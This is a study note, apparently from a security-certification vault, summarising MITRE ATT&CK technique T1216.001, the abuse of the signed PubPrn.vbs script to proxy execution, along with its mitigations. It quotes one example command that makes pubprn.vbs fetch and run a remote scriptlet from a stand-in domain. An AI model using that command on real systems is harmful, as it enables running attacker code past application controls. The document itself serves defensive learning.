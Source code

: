 ```yaml
---
alias: T1216.001
---
```


## T1216.001

Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a [Visual Basic](https://attack.mitre.org/techniques/T1059/005) script that publishes a printer to Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the [Windows Command Shell](https://attack.mitre.org/techniques/T1059/003) via <code>Cscript.exe</code>. For example, the following code publishes a printer within the specified domain: <code>cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com</code>.(Citation: pubprn)

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.(Citation: Enigma0x3 PubPrn Bypass) To do so, adversaries may set the second <code>script:</code> parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is <code>pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct</code>. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), <code>PubPrn.vbs</code> has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to <code>LDAP://</code>, vice the <code>script:</code> moniker which could be used to reference remote code via HTTP(S).


### Tactic
- [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/Mobile-Attack/tactics/Defense Evasion]] (TA0005)

### Platforms
- Windows

### Permissions Required

### Mitigations

| ID | Name | Description |
| --- | --- | --- |
| [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/Mobile-Attack/mitigations/Execution Prevention\|M1038]] | Execution Prevention | Certain signed scripts that can be used to execute other programs may not be necessary within a given environment. Use application control configured to block execution of these scripts if they are not required for a given system or network to prevent potential misuse by adversaries. |
| [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/Mobile-Attack/mitigations/Behavior Prevention on Endpoint\|M1040]] | Behavior Prevention on Endpoint | On Windows 10, update Windows Defender Application Control policies to include rules that block the older, vulnerable versions of PubPrn.(Citation: Microsoft_rec_block_rules) |


---
### References

- mitre-attack: https://attack.mitre.org/techniques/T1216/001
- pubprn: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/pubprn
- Enigma0x3 PubPrn Bypass: https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/
